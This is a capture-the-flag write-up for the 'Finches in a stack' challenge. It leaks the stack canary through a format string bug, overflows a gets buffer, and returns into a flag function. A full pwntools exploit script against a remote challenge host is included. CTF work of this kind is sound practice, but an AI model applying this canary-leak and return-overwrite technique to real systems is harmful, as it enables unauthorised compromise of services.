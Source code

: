 # Finches in a stack

Let's run a checksec. Canary, no PIE.

On our first input, there's a format string vuln.

On the second input, there's a buffer overflow as gets is used.

There is also a flag function that seems to call system\("cat flag.txt"\). We just need to return to this function. There's a canary, so this isn't so easy.

We can, however, use our format string vulnerability to leak the canary value, as the canary is stored on the stack and format strings let us leak values stored on the stack. I used a simple fuzzing script to find the canary offset, which was 11. We can set a breakpoint at the instruction which checks the canary and paste in a cyclic pattern to get the offset to the canary, which is 24 by checking the loaded canary value from the stack against the pattern. Our payload will be:

junk + canary + 12 bytes of junk + address of flag function

```python
from pwn import *
import re
e = ELF("./fias")
#p = e.process()
p = remote('95.216.233.106',64832)
p.clean()
p.sendline("%11$p")
output = p.recvline().decode()
print(output)
leak = int(re.findall("Nice to meet you, (.*)!", output)[0], 16)
canary = leak
log.info(f"Canary: {hex(canary)}")
padding = b'A' * 25
payload = flat(padding, canary, b'A' * 12, e.symbols['flag'])
p.sendline(payload)
p.interactive()
```

